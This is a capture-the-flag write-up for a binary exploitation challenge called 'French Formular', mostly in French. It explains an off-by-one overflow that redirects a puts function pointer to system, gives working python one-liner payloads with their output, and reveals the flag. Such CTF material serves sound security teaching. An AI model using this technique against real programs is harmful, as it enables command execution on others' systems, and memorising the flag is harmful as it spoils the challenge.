 # FRENCH FORMULAR
## <u>**CatÃ©gorie**</u>

PWN

## <u>**Description**</u> :

I am trying to get a French nationality but their administration service looks shitty...
Could you please help me to get an ID Card via their formular ? 

FORMAT DU FLAG : Fichier `flag.txt` à lire en remote, MCTF{...}

ACCES AU CHALLENGE :

Une instance remote devra être déployée, les joueurs auront accès au binaire pour l'étudier et l'exploiter en local s'ils le souhaitent.
Les joueurs devront exploiter le service en remote pour pouvoir lire le fichier flag.txt

Binaire fourni

## <u>Hints</u> 

According to an advisor I spoke with, the issue might be somehow related to the "Procedure Linkage Table"...
But I don't understand what this means !

## <u>Auteur</u> 

Noiche

## <u>Solution</u> :

Lorsque l'on exécute le programme, on se rend compte qu'il affiche la date et demande une entrée à l'utilisateur.

En utilisant ltrace par exemple, on constate que le programme utilise la fonction "system" de la libc.
Cela implique qu'une entrée pour la fonction "system" sera présente dans la PLT.

Si l'on envoit une input trop grande, le programme peut crash, et on s'aperçoit qu'on contrôle le dernier byte du pointeur de fonction qui est utilisé pour call puts().
--> Cause du crash : l'entrée user est récupérée via read() dans un buffer située dans la section .data du binaire, avec un off-by-one
--> Juste après ce buffer, dans la même section, on trouve un pointeur de fonction qui pointe sur puts@PLT et qui est utilisé pour call puts dans le code source, avec comme argument le buffer cité précédemment.
--> L'idée étant qu'en condition normale, pFunc(buffer) soit équivalent à puts(buffer) et affiche donc à l'écran le nom indiqué par l'utilisateur
--> Il est donc possible de réécrire le pointeur de fonction et de le faire pointer vers system@PLT, qui a l'avantage d'avoir le même prototype que puts.
--> Le résultat : la fonction system sera appelée et le buffer utilisé comme argument
--> Il suffit donc de mettre une commande bash (ls, cat...) au début du buffer, suivi par exemple de " # ", combler avec du padding ("A" par exemple) et réécrire le pointeur de fonction

Exemple :

```bash
 kali@kali  ~/Documents/SB/MCTF/PWN/chall_3  python3 -c "print('ls #' + 'A'*(256-4) + '\x40')" | ./French_Formular
Tue Apr  5 03:15:27 PM CEST 2022

[...]

 Let's begin with something simple. What is your name ? :


 Here is what you typed :

flag.txt  French_Formular  French_Formular.c  WU.md

 Sorry, you can't go further because our service is not available due to a technical issue, try again later...

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_3  python3 -c "print('cat flag.txt #' + 'A'*(256-14) + '\x40')" | ./French_Formular
Tue Apr  5 03:15:50 PM CEST 2022

[...]

 Let's begin with something simple. What is your name ? :


 Here is what you typed :

MCTF{Your_ID_Card_Number_Is_6950364305038_!!}

 Sorry, you can't go further because our service is not available due to a technical issue, try again later...

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_3  
```

##**Flag : MCTF{Your_ID_Card_Number_Is_6950364305038_!!}**
